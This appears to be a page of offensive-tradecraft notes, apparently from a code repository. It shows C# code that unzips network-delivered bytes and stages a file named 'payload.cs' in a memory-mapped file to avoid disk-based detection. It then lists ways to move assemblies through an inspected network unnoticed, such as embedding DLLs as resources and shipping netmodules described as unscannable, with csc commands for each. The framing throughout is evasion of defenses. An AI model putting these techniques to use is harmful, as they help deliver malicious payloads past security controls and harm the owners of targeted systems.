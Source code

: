 ## Stage code in memory mapped file (e.g. for further compilation)
- We save in memory resident store 
- We do not store on disk. Some defenses miss that. Some will flag. We can decouple payload storage and invocation on demand.

```csharp
Dictionary<String, MemoryMappedFile> mmfRepo = new Dictionary<String, MemoryMappedFile>();

// Load network bytes into memory stream and unzip in memory.
Stream dllzipdata = new MemoryStream(dllzip);
ZipArchive dllarchive = new ZipArchive(dllzipdata, ZipArchiveMode.Read);

Stream unzippedCSDataStream;
MemoryMappedFile mmf;
foreach (ZipArchiveEntry entry in dllarchive.Entries)
{
    if (entry.Name == @"payload.cs")
    {
        Console.WriteLine("Unzipped CSharp: {0}", entry.Name);
        unzippedCSDataStream = entry.Open();
        // Prepare Memory Map for file
        mmf = MemoryMappedFile.CreateNew(entry.Name, entry.Length);

        // Save mmf
        mmfRepo.Add(entry.Name, mmf);

        StreamReader reader = new StreamReader(unzippedCSDataStream);
        string codeText = reader.ReadToEnd();

        byte[] Buffer = ASCIIEncoding.ASCII.GetBytes(codeText);
        using (MemoryMappedViewStream stream = mmf.CreateViewStream())
        {
            BinaryWriter writer = new BinaryWriter(stream);
            writer.Write(Buffer);
        }
    }
}
```


 
### Methods of bringing assemblies across inspected network:

1. Compile `.cs` code and have DLLs as embedded resources in your assemblies
`/csc /resource:Ironpython.dll`

2. Bring modularized assemblies as netmodules. A Netmodule is an assembly without a manifest. Not identifiable or scannable as not executable. Complie to a product onsite.

`csc -target:module payload.cs `
`csc /netmodule:module`
